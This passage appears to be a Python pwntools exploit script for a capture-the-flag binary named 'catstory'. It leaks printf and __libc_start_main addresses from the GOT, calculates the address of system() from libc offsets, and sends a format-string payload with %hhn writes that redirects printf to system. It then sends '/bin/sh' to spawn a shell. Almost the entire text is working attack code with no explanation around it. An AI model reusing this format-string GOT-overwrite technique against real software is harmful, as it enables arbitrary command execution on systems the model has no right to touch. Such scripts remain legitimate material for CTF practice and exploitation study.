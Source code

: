 ```python
        #print len(rec)
        if len(rec) == 991:
            got_addr += '\0'
        else :
            got_addr += rec[8]
    got_addr = "".join(got_addr) 
    got_addr = struct.unpack("P", got_addr)
    return got_addr

def set_got_addr_payload(v1, v2, v3, a1, a2, a3):
    pl = "" 
    pl += "%{}x".format(v1)
    pl += "%130$hhn"
    pl += "%{}x".format(v2)
    pl += "%131$hhn"
    pl += "%{}x".format(v3)
    pl += "%132$hhn"
    pl = pad2(pl)
    pl += struct.pack("Q", a1) 
    pl += struct.pack("Q", a2) 
    pl += struct.pack("Q", a3)
    return pl
    
def sort_get_idx(vals):
    return sorted(range(len(vals)), key=lambda k: vals[k])

#proc.sendline(calc_offset_payload()) 
#print proc.recv()

proc = process("./catstory")
GOT_PLT_ADDR = 0x601030 # printf
printf_addr = get_got_addr(proc)
printf_addr = int(''.join(map(str,printf_addr)))
print "printf_addr = %x" % (printf_addr)

GOT_PLT_ADDR = 0x601038 # __libc_start_main
libc_start_main_addr = get_got_addr(proc)
libc_start_main_addr = int(''.join(map(str,libc_start_main_addr)))
print "libc_start_main_addr = %x" % (libc_start_main_addr)

system_addr = printf_addr + 0x4f440 - 0x64e80
print "system_addr = %x" % (system_addr)

val1 = int(np.uint8(system_addr))
print "%x" % (val1)
val2 = int(np.uint8(system_addr >> 8))
print "%x" % (val2)
val3 = int(np.uint8(system_addr >> 16))
print "%x" % (val3)

sorted_idx = sort_get_idx([val1, val2, val3])
print sorted_idx
sorted_val = sorted([val1, val2, val3])
print sorted_val

GOT_PLT_ADDR = 0x601030 # printf

proc.sendline(set_got_addr_payload(sorted_val[0], sorted_val[1] - sorted_val[0], sorted_val[2] - sorted_val[1], \
    GOT_PLT_ADDR + sorted_idx[0], GOT_PLT_ADDR + sorted_idx[1], GOT_PLT_ADDR + sorted_idx[2]))
proc.recvrepeat(1)
  
proc.sendline("/bin/sh")
```